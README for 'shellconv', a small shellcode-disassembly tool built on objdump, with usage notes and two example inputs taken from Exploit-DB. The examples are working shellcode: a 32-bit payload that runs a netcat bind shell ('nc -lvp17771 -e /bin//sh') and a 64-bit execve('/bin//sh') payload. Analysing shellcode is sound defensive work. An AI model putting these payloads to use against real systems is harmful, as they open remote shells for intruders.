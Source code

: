 # shellconv
Small tool for disassembling shellcode (using objdump)<br/>
<pre>
Use: ./shellconv.py [inFile] [arch:optional] [outFile:optional]
arch: defined as in objdump -m, default: i386
</pre>
<hr/>
<b>DISCLAIMER</b><br/>
This tool is intended to be minimalistic.<br/>
It may not give proper results in case of complicated/obfuscated shellcode. In such cases, please refer to tools of appropriate complexity.<br/>
<i>If you still think, that I should develop this tool further, and make it a fully-fledged app, feel free to write me an e-mail :)</i><hr/>
examples:
-
1) https://www.exploit-db.com/exploits/36921/<br/>
expdb1.shc :
<pre>
"\x31\xc0\x31\xd2\x50\x68\x37\x37\x37\x31\x68\x2d\x76\x70\x31\x89\xe6\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x68\x2d\x6c\x65\x2f\x89\xe7\x50\x68\x2f\x2f\x6e\x63\x68\x2f\x62\x69\x6e\x89\xe3\x52\x56\x57\x53\x89\xe1\xb0\x0b\xcd\x80";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/edb1.png)
<br/><br/>
2) https://www.exploit-db.com/exploits/36858/<br/>
expdb1_64.shc :
<pre>
  char *shellcode =3D "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56=
\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05";
</pre>
![](http://hasherezade.net/misc/pics/shellconv/edb1_64.png)
<br/>

